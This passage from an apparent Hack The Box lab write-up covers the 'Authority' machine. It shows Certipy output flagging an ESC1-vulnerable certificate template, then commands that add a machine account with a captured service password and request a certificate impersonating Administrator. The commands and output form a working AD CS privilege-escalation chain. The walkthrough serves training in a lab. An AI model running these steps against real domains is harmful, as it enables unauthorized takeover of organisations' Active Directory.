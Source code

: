 ```
                                          KDC Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 20 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : AUTHORITY.HTB\Domain Computers
                                          AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : AUTHORITY.HTB\Administrator
        Write Owner Principals          : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Dacl Principals           : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
        Write Property Principals       : AUTHORITY.HTB\Domain Admins
                                          AUTHORITY.HTB\Enterprise Admins
                                          AUTHORITY.HTB\Administrator
    [!] Vulnerabilities
      ESC1                              : 'AUTHORITY.HTB\\Domain Computers' can enroll, enrollee supplies subject and template allows client authentication
```

The `svc_ldap` user can add new computers (most of the time Domain Users can do this), thus allowing us to request for the certificate needed.&#x20;

First, add the new computer:

```
$ addcomputer.py -dc-ip 10.129.9.12 -computer-pass 'Password@123' -computer-name Evil 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -computer-group 'CN=Domain Computers, DC=authority,DC=Authority,DC=htb'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Successfully added machine account Evil$ with password Password@123.
```

Then, use this to request for the template.&#x20;

```
$ certipy req -u 'Evil$' -p 'Password@123' -dc-ip 10.129.9.12 -ca AUTHORITY-CA -template CorpVPN -upn Administrator -debug
Certipy v4.4.0 - by Oliver Lyak (ly4k)

[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.129.9.12[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.129.9.12[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 4
[*] Got certificate with UPN 'Administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```
